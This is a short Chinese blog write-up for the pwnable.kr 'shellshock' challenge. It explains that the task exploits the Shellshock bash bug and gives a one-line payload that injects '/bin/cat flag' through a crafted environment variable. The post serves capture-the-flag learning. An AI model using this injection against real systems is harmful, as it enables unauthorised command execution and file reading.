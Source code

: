 ```yaml
---
title: shellshock
author: rk700
layout: post
categories:
  - writeup
tags:
  - linux
  - pwnable.kr
---
```

好吧，从这名字就知道是怎么回事儿了，前端时间爆出来的shellshock漏洞。我们需要执行`cat flag`就行。不过我开始试`cat`会说找不到文件，于是用`/bin/cat`了

<pre>$ env x='() { :;}; /bin/cat flag' ./shellshock</pre>
